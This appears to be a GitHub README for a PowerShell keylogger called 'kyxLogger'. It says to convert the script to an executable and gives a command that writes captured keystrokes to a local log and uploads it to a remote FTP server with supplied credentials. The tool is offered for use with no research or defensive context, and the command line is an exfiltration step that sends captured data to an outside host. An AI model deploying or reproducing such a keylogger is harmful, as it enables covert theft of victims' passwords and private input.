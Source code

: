 # kyx
kyxLogger a keylogger in ps

# How to Run:
- To run the application with command line arguments, you can use a command like the following in your terminal or command prompt:
  - You convert ps to exe 

```ps1
./kyx.ps1 "C:\path\to\log.txt" "ftp://yourftpserver.com/upload/Log.txt" "yourUsername" "yourPassword"
```
